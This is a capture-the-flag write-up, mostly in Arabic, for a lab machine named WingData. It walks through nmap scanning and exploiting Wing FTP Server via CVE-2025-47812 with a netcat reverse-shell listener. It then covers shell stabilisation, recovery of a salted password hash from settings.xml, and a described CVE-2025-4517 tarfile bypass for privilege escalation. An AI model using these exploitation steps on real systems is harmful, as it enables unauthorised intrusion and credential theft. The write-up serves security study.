WingData
توثيق تقني محفوظ من المصدر الأصلي في Notion، يشمل الخطوات والأوامر والنتائج ولقطات الشاشة المتاحة.
العودة إلى تقارير CTFبسم الله الرحمن الرحيم
first : enumeration

sudo nmap -A 10.129.49.142
Starting Nmap 7.98 ( https://nmap.org ) at 2026-05-07 13:18 +0300
Nmap scan report for 10.129.49.142
Host is up (0.16s latency).
Not shown: 998 filtered tcp ports (no-response)
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 9.2p1 Debian 2+deb12u7 (protocol 2.0)
| ssh-hostkey:
| 256 a1:fa:95:8b:d7:56:03:85:e4:45:c9:c7:1e:ba:28:3b (ECDSA)
|_ 256 9c:ba:21:1a:97:2f:3a:64:73:c1:4c:1d:ce:65:7a:2f (ED25519)
80/tcp open http Apache httpd 2.4.66
|_http-server-header: Apache/2.4.66 (Debian)
|_http-title: Did not follow redirect to http://wingdata.htb/
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|router
Running (JUST GUESSING): Linux 4.X|5.X|2.6.X|3.X (97%), MikroTik RouterOS 7.X (88%)
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5 cpe:/o:linux:linux_kernel:2.6 cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:6.0 cpe:/o:mikrotik:routeros:7 cpe:/o:linux:linux_kernel:5.6.3
Aggressive OS guesses: Linux 4.15 - 5.19 (97%), Linux 5.0 - 5.14 (97%), Linux 2.6.32 - 3.13 (91%), Linux 3.10 - 4.11 (91%), Linux 3.2 - 4.14 (91%), Linux 2.6.32 - 3.10 (91%), Linux 4.19 - 5.15 (91%), Linux 4.15 (90%), OpenWrt 21.02 (Linux 5.4) (90%), Linux 2.6.32 (89%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host: localhost; OS: Linux; CPE: cpe:/o:linux:linux_kernel
TRACEROUTE (using port 22/tcp)
HOP RTT ADDRESS
1 186.45 ms 10.10.16.1
2 252.90 ms 10.129.49.142
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 29.80 seconds> I added the address to the hosts file and visit site قمت باضافة العنوان الى ملف المضيفين وزيارة الموقع من المتصفح
echo " 10.129.49.142 wingdata.htb" | sudo tee -a /etc/hosts


عند زيارة client portal في الصفحة الرئيسية نجد خادم محلي داخلي على ftp.wingdata.htb لكن لا يمكنك زيارته الا اذا اضفت العنوان الى ملف المضيفين اسفل العنوان الاخر
ecoh "10.129.49.142 ftp.wingdata.htb" | sudo tee -a /etc/hosts
بعد البحث عن wing FTP Serveer v7.4.3 تجد انه مصاب بثغرة *CVE-2025-47812 تجد POC الخاص بها هنا<mention-page url="https://app.notion.com/p/3597739eb41280488d6de8d21098179f"/> *
قم بوضع الكود داخل ملف exploit.py وقم بحفظه بعد ذلك قم بتنفيذه كما يلي :
اولا افتح netcat في نافذه منفصلة وانتظر الاتصال
<columns>
<column ratio="56.25">
pythhon3 exploit.py -u http://ftp.wingdata.htb -c "whoami"
</column>
<column ratio="43.75">
┌──(kali㉿kali)-[~/Downloads]
└─$ nc -lvnp 9001
listening on [any] 9001 ...
</column>
</columns>

الان تم الاستغلال بنجاح وستجد الاتصال في نافذة nc

بمجرد الدخول، قمنا بالاستقرار (Stabilizing the shell):
python3 -c 'import pty; pty.spawn("/bin/bash")'
wingftp@wingdata:/opt/wftpserver$
wingftp@wingdata:/opt/wftpserver$ ls -la
total 26504
drwxr-x--- 9 wingftp wingftp 4096 May 7 06:16 .
drwxr-xr-x 4 root root 4096 Feb 9 08:19 ..
drwxr-x--- 4 wingftp wingftp 4096 May 7 06:16 Data
-rwxr-x--- 1 wingftp wingftp 4834 Jul 31 2018 License.txt
drwxr-x--- 5 wingftp wingftp 4096 May 7 08:52 Log
drwxr-x--- 2 wingftp wingftp 4096 Feb 9 08:19 lua
-rw-r--r-- 1 wingftp wingftp 5 May 7 06:16 pid-wftpserver.pid
-rwxr-x--- 1 wingftp wingftp 1434 Sep 13 2020 README
drwxr-x--- 2 wingftp wingftp 4096 May 7 08:56 session
drwxr-x--- 2 wingftp wingftp 4096 Feb 9 08:19 session_admin
-rwxr-x--- 1 wingftp wingftp 115258 Mar 26 2025 version.txt
drwxr-x--- 10 wingftp wingftp 12288 Feb 9 08:19 webadmin
drwxr-x--- 13 wingftp wingftp 4096 Feb 9 08:19 webclient
-rwxr-x--- 1 wingftp wingftp 4649509 Sep 14 2021 wftpconsole
-rwxr-x--- 1 wingftp wingftp 3272 Nov 2 2025 wftp_default_ssh.key
-rwxr-x--- 1 wingftp wingftp 1342 Nov 22 2017 wftp_default_ssl.crt
-rwxr-x--- 1 wingftp wingftp 1675 Nov 22 2017 wftp_default_ssl.key
-rwxr-x--- 1 wingftp wingftp 22283682 Mar 26 2025 wftpserver
wingftp@wingdata:/opt/wftpserver$
لقد وجدت ملف Data/settings.xml يحتوي على كلمة مرور مشفرة للخادم: 2D35A8D420A697203D7C554A678F8119

تعرفنا على اسلوب التشفير الخاص بها وهو MD5 ولمكن لم نتمكن من اختراقها ولكن وجدنا بعض المعلومات الاخرى المهمة

بعد التعمق في البحث عن المعلومات الخاصة بالخادم wing FTP Server تجد ان الخادم لا يقوم بتخزين قيمة الهاش الخاص بكلمة السر فقط بل يضيف عليها قيمة اضافية افتراضية تسمى salt<br>قم بالبحث عن salt الافتراضي الذي يقوم الخادم باضافته تجده داخل ملف settings.xml
wingftp@wingdata:/opt/wftpserver/Data/1$ ls
ls
groups portlistener.xml settings.xml users
wingftp@wingdata:/opt/wftpserver/Data/1$ cat settings.xml
cat settings.xml
<?xml version="1.0" ?>
<DOMAIN_OPTION Description="Wing FTP Server Domain settings">
<Domain_Max_Session>0</Domain_Max_Session>
<Domain_Per_Ip_Max_Session>0</Domain_Per_Ip_Max_Session>
<Per_Session_Max_Download_Speed>0</Per_Session_Max_Download_Speed>
<Per_Session_Max_Upload_Speed>0</Per_Session_Max_Upload_Speed>
<Domain_Max_Download_Speed>0</Domain_Max_Download_Speed>
<Domain_Max_Upload_Speed>0</Domain_Max_Upload_Speed>
<Per_User_Max_Download_Speed>0</Per_User_Max_Download_Speed>
<Per_User_Max_Upload_Speed>0</Per_User_Max_Upload_Speed>
<Passive_Type>0</Passive_Type>
<Pasv_Ip_Refresh_Interval>60</Pasv_Ip_Refresh_Interval>
<Fixed_Ip></Fixed_Ip>
<Web_Ip>http://ip.wftpserver.com/w/getIP.php</Web_Ip>
<DNS_Ip></DNS_Ip>
<Enable_UPnP_For_Passive_Ports>0</Enable_UPnP_For_Passive_Ports>
<Min_Passive_Port>1024</Min_Passive_Port>
<Max_Passive_Port>1124</Max_Passive_Port>
<Transfer_Buffer_Size>65535</Transfer_Buffer_Size>
<Userdata_Access_Style>1</Userdata_Access_Style>
<MYSQL_Address>localhost</MYSQL_Address>
<MYSQL_Port>3306</MYSQL_Port>
<MYSQL_Username>root</MYSQL_Username>
<MYSQL_Password></MYSQL_Password>
<MYSQL_DatabaseName>wftp_database</MYSQL_DatabaseName>
<MYSQL_UnixSocket></MYSQL_UnixSocket>
<ODBC_DSN_Address></ODBC_DSN_Address>
<ODBC_DSN_Username></ODBC_DSN_Username>
<ODBC_DSN_Password></ODBC_DSN_Password>
<Enable_Mode_Z_support>0</Enable_Mode_Z_support>
<Default_Compression_level>8</Default_Compression_level>
<Min_Compression_level>1</Min_Compression_level>
<Max_Compression_level>9</Max_Compression_level>
<Enable_SFV_Check>0</Enable_SFV_Check>
<SFV_Check_Create_Missing>0</SFV_Check_Create_Missing>
<SFV_Check_Bad_File>0</SFV_Check_Bad_File>
<SFV_Check_Create_Progress>0</SFV_Check_Create_Progress>
<SFV_Check_Send_Result>0</SFV_Check_Send_Result>
<Anti_Hammer_Enable>1</Anti_Hammer_Enable>
<Anti_Hammer_Block_Time>180</Anti_Hammer_Block_Time>
<Anti_Hammer_Login_Failed_Counts>10</Anti_Hammer_Login_Failed_Counts>
<Anti_Hammer_Interval>90</Anti_Hammer_Interval>
<Anti_Hammer_Send_Message>0</Anti_Hammer_Send_Message>
<SSL_Name>wftp_default_ssl</SSL_Name>
<SSH_Name>wftp_default_ssh</SSH_Name>
<SSH_Use_UTF8>1</SSH_Use_UTF8>
<SMTP_Name></SMTP_Name>
<Enable_FXP>0</Enable_FXP>
<Enable_WebLink>0</Enable_WebLink>
<Enable_Logfile>1</Enable_Logfile>
<Logfile_Name>%Y-%M-%D.log</Logfile_Name>
<Logfile_Maxsize>512000</Logfile_Maxsize>
<LDAP_Enable_FileAppend>0</LDAP_Enable_FileAppend>
<LDAP_Enable_FileDelete>0</LDAP_Enable_FileDelete>
<LDAP_Enable_DirRename>0</LDAP_Enable_DirRename>
<LDAP_Enable_DirList>1</LDAP_Enable_DirList>
<LDAP_Enable_DirCreate>0</LDAP_Enable_DirCreate>
<LDAP_Enable_DirDelete>0</LDAP_Enable_DirDelete>
<LDAP_Enable_FileRename>0</LDAP_Enable_FileRename>
<LDAP_Enable_ZipFile>0</LDAP_Enable_ZipFile>
<LDAP_Enable_UnzipFile>0</LDAP_Enable_UnzipFile>
<LDAP_User_Mapping>LDAPUser001:LocalUser001
LDAPUser002:LocalUser002</LDAP_User_Mapping>
<LDAP_Group_Mapping>CN=ADGroup1,CN=Builtin,DC=wftpserver,DC=com:LocalUser1
CN=ADGroup2,CN=Builtin,DC=wftpserver,DC=com:LocalUser2</LDAP_Group_Mapping>
<LDAP_Version>3</LDAP_Version>
<LDAP_Dir_Lowercase>0</LDAP_Dir_Lowercase>
<WebLink_Speed>0</WebLink_Speed>
<LIST_TIME_GMT>1</LIST_TIME_GMT>
<Logfile_Compress>1</Logfile_Compress>
<Enable_UTF8_ON>1</Enable_UTF8_ON>
<Enable_AUTH_ON>1</Enable_AUTH_ON>
<Use_LANIP_For_LAN_Client_Passive>1</Use_LANIP_For_LAN_Client_Passive>
<Min_Password_Length>0</Min_Password_Length>
<Password_Have_Numerals>0</Password_Have_Numerals>
<Password_Have_Lowercase>0</Password_Have_Lowercase>
<Password_Have_Uppercase>0</Password_Have_Uppercase>
<Password_Have_Nonalphanumeric>0</Password_Have_Nonalphanumeric>
<Enable_NTFS_Permission>0</Enable_NTFS_Permission>
<EnableSHA256>1</EnableSHA256>
<Enable_HTTPS_Redirect>0</Enable_HTTPS_Redirect>
<HTTPS_Redirect_Port>443</HTTPS_Redirect_Port>
<Change_Password_Firstlogon>0</Change_Password_Firstlogon>
<Enable_UploadLink>0</Enable_UploadLink>
<UploadLink_Speed>0</UploadLink_Speed>
<Additional_HTTP_Headers></Additional_HTTP_Headers>
<Allow_Passive_Active_Mode>2</Allow_Passive_Active_Mode>
<Passive_Listener_Timeout>30</Passive_Listener_Timeout>
<Auto_Passive_Port_Forward>0</Auto_Passive_Port_Forward>
<MYSQL_Set_UTF8>1</MYSQL_Set_UTF8>
<Enable_Domain>1</Enable_Domain>
<Auto_Active_Port_Forward>0</Auto_Active_Port_Forward>
<Weblink_URL></Weblink_URL>
<Enable_Symbolic_Link>0</Enable_Symbolic_Link>
<Enable_Welcome_Message>0</Enable_Welcome_Message>
<Welcome_Message></Welcome_Message>
<Keep_Old_Weblink>0</Keep_Old_Weblink>
<Uplink_Overwrite_File>0</Uplink_Overwrite_File>
<SSH_Banner>WingFTPServer</SSH_Banner>
<HTTP_KeepAlive>1</HTTP_KeepAlive>
<Enable_Weblink_Subfolder>0</Enable_Weblink_Subfolder>
<TLS_Session_Timeout>3600</TLS_Session_Timeout>
<EnablePasswordSalting>1</EnablePasswordSalting>
<SaltingString>WingFTP</SaltingString>
<Enable_Log_Millisecond>0</Enable_Log_Millisecond>
<LDAP_Mapping_CaseInsensitive>0</LDAP_Mapping_CaseInsensitive>
<LDAP_Timeout>10</LDAP_Timeout>
<Keep_Anonymous_Weblink>0</Keep_Anonymous_Weblink>
<Transfer_Limit>
<Transfer_Limit_Enable>0</Transfer_Limit_Enable>
<Transfer_Limit_Reset>0</Transfer_Limit_Reset>
<Transfer_Limit_Reset_Time>0</Transfer_Limit_Reset_Time>
<Enable_Upload_Limit_Never>0</Enable_Upload_Limit_Never>
<Current_Upload_Size_Never>0</Current_Upload_Size_Never>
<Max_Upload_Size_Never>0</Max_Upload_Size_Never>
<Enable_Download_Limit_Never>0</Enable_Download_Limit_Never>
<Current_Download_Size_Never>0</Current_Download_Size_Never>
<Max_Download_Size_Never>0</Max_Download_Size_Never>
<Enable_Upload_Limit_Hourly>0</Enable_Upload_Limit_Hourly>
<Current_Upload_Size_Hourly>0</Current_Upload_Size_Hourly>
<Max_Upload_Size_Hourly>0</Max_Upload_Size_Hourly>
<Enable_Download_Limit_Hourly>0</Enable_Download_Limit_Hourly>
</DOMAIN_OPTION>
wingftp@wingdata:/opt/wftpserver/Data/1$السطر الذي نريده هو \<SaltingString\>WingFTP\</SaltingString\>
قم بوضع الهاش + salt في ملف وسميه hash

نفذ الامر التالي :
[REDACTED CTF credential output]وكدة تبق حصلت على كلمة مرور المستخدم wacky دلوقتي هنسجل دخول باستخدام ال Username = wacky Password = [REDACTED_CTF_PASSWORD] هنسجل بيهم ssh**

وكدة تكون حصلت على User Flag
Next step : Privilege escalation
> الامر sudo -L بين وجود اسكريبت شغال بصلاحية ال Root بدون باسورد هنفتحه ونحاول نشوف بيشتغل ازاي وهل نقدر نستغله
wacky@wingdata:~$ sudo -l
Matching Defaults entries for wacky on wingdata:
env_reset, mail_badpass,
secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty
User wacky may run the following commands on wingdata:
(root) NOPASSWD: /usr/local/bin/python3 /opt/backup_clients/restore_backup_clients.py *
wacky@wingdata:~$wacky@wingdata:~$ cat /opt/backup_clients/restore_backup_clients.py
#!/usr/bin/env python3
import tarfile
import os
import sys
import re
import argparse
BACKUP_BASE_DIR = "/opt/backup_clients/backups"
STAGING_BASE = "/opt/backup_clients/restored_backups"
def validate_backup_name(filename):
if not re.fullmatch(r"^backup_\d+\.tar$", filename):
return False
client_id = filename.split('_')[1].rstrip('.tar')
return client_id.isdigit() and client_id != "0"
def validate_restore_tag(tag):
return bool(re.fullmatch(r"^[a-zA-Z0-9_]{1,24}$", tag))
def main():
parser = argparse.ArgumentParser(
description="Restore client configuration from a validated backup tarball.",
epilog="Example: sudo %(prog)s -b backup_1001.tar -r restore_john"
)
parser.add_argument(
"-b", "--backup",
required=True,
help="Backup filename (must be in /home/wacky/backup_clients/ and match backup_<client_id>.tar, "
"where <client_id> is a positive integer, e.g., backup_1001.tar)"
)
parser.add_argument(
"-r", "--restore-dir",
required=True,
help="Staging directory name for the restore operation. "
"Must follow the format: restore_<client_user> (e.g., restore_john). "
"Only alphanumeric characters and underscores are allowed in the <client_user> part (1–24 characters)."
)
args = parser.parse_args()
if not validate_backup_name(args.backup):
print("[!] Invalid backup name. Expected format: backup_<client_id>.tar (e.g., backup_1001.tar)", file=sys.stderr)
sys.exit(1)
backup_path = os.path.join(BACKUP_BASE_DIR, args.backup)
if not os.path.isfile(backup_path):
print(f"[!] Backup file not found: {backup_path}", file=sys.stderr)
sys.exit(1)
if not args.restore_dir.startswith("restore_"):
print("[!] --restore-dir must start with 'restore_'", file=sys.stderr)
sys.exit(1)
tag = args.restore_dir[8:]
if not tag:
print("[!] --restore-dir must include a non-empty tag after 'restore_'", file=sys.stderr)
sys.exit(1)
if not validate_restore_tag(tag):
print("[!] Restore tag must be 1–24 characters long and contain only letters, digits, or underscores", file=sys.stderr)
sys.exit(1)
staging_dir = os.path.join(STAGING_BASE, args.restore_dir)
print(f"[+] Backup: {args.backup}")
print(f"[+] Staging directory: {staging_dir}")
os.makedirs(staging_dir, exist_ok=True)
try:
with tarfile.open(backup_path, "r") as tar:
tar.extractall(path=staging_dir, filter="data")
print(f"[+] Extraction completed in {staging_dir}")
except (tarfile.TarError, OSError, Exception) as e:
print(f"[!] Error during extraction: {e}", file=sys.stderr)
sys.exit(2)
if __name__ == "__main__":
main()> يستخدم البرنامج النصي الدالة ()tarfile.extractall مع وسيطة “filter="data . على الرغم من أن هذا الفلتر تم تقديمه في Python 3.12 لمنع هجمات Path Traversal (TarSlip)، إلا أنه عرضة لـثغرة
[\[\[CVE-2025-4517\]\]](/3597739eb4128016805fe42471bd4776?pvs=25)
تسمح هذه الثغرة الأمنية للمهاجم بتجاوز عامل التصفية "الآمن" عن طريق إنشاء أرشيف tar بسلسلة محددة من الارتباطات الرمزية وهياكل الدليل التي تتجاوز PATH_MAX للنظام. عندما يصبح المسار طويلًا جدًا، تفشل عملية تسوية المسار الحقيقي في Python، مما يسمح بكتابة الملفات خارج دليل STAGING_BASE المقصود.
<br>التقرير ده بيستخدم CVE-2025-4517. الثغرة دي بتخدع فلتر الأمان الجديد في بايثون (filter="data") عن طريق عمل Path Overflow. الفكرة إننا بنعمل مسار طويل جداً يخلي نظام التشغيل يفشل في معالجة الروابط الرمزية، وده بيسمح لنا نكتب في أي مكان (Arbitrary File Write).<br><br>
